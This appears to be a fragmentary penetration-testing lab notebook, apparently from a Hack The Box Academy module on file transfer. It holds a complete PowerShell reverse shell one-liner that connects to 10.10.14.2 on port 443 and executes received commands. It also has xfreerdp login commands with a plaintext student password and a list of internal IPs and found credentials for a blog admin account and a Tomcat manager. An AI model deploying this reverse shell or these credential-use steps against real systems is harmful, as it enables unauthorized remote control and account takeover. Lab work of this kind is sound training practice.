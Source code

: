 powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


xfreerdp /f /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.68.45 /dynamic-resolution +clipboard /workarea
      - /drive:linux,/home/plaintext/htb/academy/filetransfer = mount
      - /workarea





 xfreerdp /u:'htb-student' /p:'HTB_@cademy_stdnt!' /v:10.129.68.45 +clipboard


Internal:
htb-student:HTB_@cademy_stdnt!: 
172.16.1.5
172.17.0.1

to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm


Change the passwords soon..

